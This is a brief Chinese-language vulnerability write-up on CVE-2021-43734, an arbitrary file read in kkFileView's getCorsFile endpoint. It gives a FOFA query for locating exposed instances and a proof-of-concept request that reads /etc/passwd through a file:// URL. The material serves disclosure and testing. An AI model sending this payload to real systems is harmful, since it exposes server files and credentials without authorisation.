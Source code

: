 # kkFileView getCorsFile 任意文件读取漏洞 CVE-2021-43734

## 漏洞描述

kkFileView getCorsFile 3.6.0 版本以下存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的任意文件，获取服务器敏感信息

## 漏洞影响

```
kkFileView getCorsFile <= 3.6.0
```

## FOFA

```
body="kkFileView"
```

## 漏洞复现

主页面

![image-20220524172325491](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241723549.png)

验证POC

```
/getCorsFile?urlPath=file:///etc/passwd 
```

![image-20220524172414993](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241724070.png)